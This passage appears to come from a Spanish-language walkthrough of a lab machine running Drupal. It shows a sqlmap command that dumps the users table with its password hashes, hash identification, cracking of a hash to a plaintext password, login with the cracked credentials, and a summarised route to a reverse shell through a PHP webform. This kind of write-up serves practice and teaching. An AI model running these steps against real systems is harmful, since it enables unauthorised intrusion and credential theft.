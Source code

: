 ```
+------------------+------------------+
```

Registros

```
❯ sqlmap -u "http://192.168.0.102/?nid=1" --batch -D d7db -T users -C name,mail,pass,status --dump
[...]
+---------+-----------------------+---------------------------------------------------------+--------+
| name    | mail                  | pass                                                    | status |
+---------+-----------------------+---------------------------------------------------------+--------+
| <blank> | <blank>               | <blank>                                                 | 0      |
| admin   | dcau-user@outlook.com | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z | 1      |
| john    | john@blahsdfsfd.org   | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF | 1      |
+---------+-----------------------+---------------------------------------------------------+--------+
```

### Cracking hash

Identificando el hash

```
❯ hashid "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF"
Analyzing '$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF'
[+] Drupal > v7.x 
```

```
❯ john --show /usr/share/wordlists/hash
?:turtle
```

Inicio sesion en drupal cms haciendo uso de la credenciales encontradas

```
john : turtle
```

### Reverse Shell

[https://www.hackingarticles.in/drupal-reverseshell/](https://www.hackingarticles.in/drupal-reverseshell/)

```
Content /Contact Us / edit / WebForm / Form Settings /PHP code /save configuration /Contact Us
```

Shell como usuario www-data
